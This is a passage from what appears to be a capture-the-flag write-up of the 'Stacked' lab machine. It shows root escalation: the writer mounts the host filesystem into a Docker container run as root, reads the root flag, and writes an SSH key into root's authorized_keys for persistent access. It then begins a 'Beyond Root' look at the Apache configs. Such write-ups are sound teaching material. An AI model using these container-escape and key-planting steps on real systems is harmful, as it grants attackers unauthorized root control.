 To access everything, I’ll need to run that entry as root with `-u root`:

```

bash-5.0# docker run -v /:/mnt --entrypoint bash -u root -it 22a4ada8399c
bash-4.2#

```

From here I can grab `root.txt`:

```

bash-4.2# cat /mnt/root/root.txt
bd97095c************************

```

### Shell

To get a root shell, I’ll just write my public key into `/mnt/root/.ssh/authorized_keys`:

```

bash-4.2# echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing" > authorized_keys

```

Now I can SSH to Stacked:

```

oxdf@hacky$ ssh -i ~/keys/ed25519_gen root@stacked.htb
...[snip]...
root@stacked:~# 

```

## Beyond Root

### Message App

#### Reconfigure

I want to look more at what’s happening with the local mail application and the XSS. With the root shell on the host, I can reconfigure the web server to be accessible from my VM.

There are four hosts defined and enabled for Apache:

```

root@stacked:/etc/apache2/sites-enabled# ls
001-website.conf  003-proxy.conf  004-portfolio.conf  005-management.conf

```
